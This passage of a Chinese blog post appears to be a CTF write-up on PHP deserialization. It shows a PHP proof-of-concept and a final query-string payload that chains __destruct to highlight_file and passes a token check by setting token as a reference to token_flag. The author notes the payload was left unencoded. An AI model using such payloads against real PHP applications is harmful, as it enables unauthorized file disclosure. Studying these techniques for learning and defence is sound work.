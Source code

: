 这样最后的token就和token_flag保持一致了。

最后的POC

```php
<?php
class Handle{       
    private $handle;        
    public function __wakeup(){
            foreach(get_object_vars($this) as $k => $v) {
                $this->$k = null;         
            }          
            echo "Waking upn";      
    }
    public function __construct($handle) {           
        $this->handle = $handle;       
    }    
    public function __destruct(){    
        $this->handle->getFlag();   
    }  
}    
class Flag{      
    public $file;      
    public $token;      
    public $token_flag;         
    function __construct($file){    
        $this->file = $file;    
        $this->token_flag = $this->token = md5(rand(1,10000));      
    }         
    public function getFlag(){       
        if(isset($this->file)){      
            echo @highlight_file($this->file,true);               
        }            
    }  
}
$b = new Flag("flag.php");
$b->token=&$b->token_flag;
$a = new Handle($b);
echo(serialize($a));
?>
```

[![En4uSx.md.png](https://s2.ax1x.com/2019/04/26/En4uSx.md.png)](https://imgchr.com/i/En4uSx)
这里还有一个点就是我们需要用%00来补全空缺的字符，又因为含有private 变量，需要 encode 一下。（累死了，嘤～）

最终payload：

`?file=hint&payload=O:6:"Handle":1:{s:14:"Handlehandle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:5:"token";s:32:"da0d1111d2dc5d489242e60ebcbaf988";s:10:"token_flag";R:4;}}`                                                               

忘记encode了，算了。。。。。

[![En22U1.md.jpg](https://s2.ax1x.com/2019/04/26/En22U1.md.jpg)](https://imgchr.com/i/En22U1)

## 利用普通成员方法

前面谈到的利用都是基于“自动调用”的magic function。但当漏洞/危险代码存在类的普通方法中，就不能指望通过“自动调用”来达到目的了。这时我们需要去寻找相同的函数名，把敏感函数和类联系在一起。一般来说大佬们去白盒审计的时候都要盯紧这些敏感函数的联系，层层递进，最终去构造出一个有杀伤力的payload。

这里我就直接给出一个例子，自行消化 <https://www.cnblogs.com/bmjoker/p/8889240.html>



# 总结

怎么说呢，又学了一周PHP，跑了一周的图书馆，很自闭。最后就写出这么一篇文章，自闭了，不说了。共勉

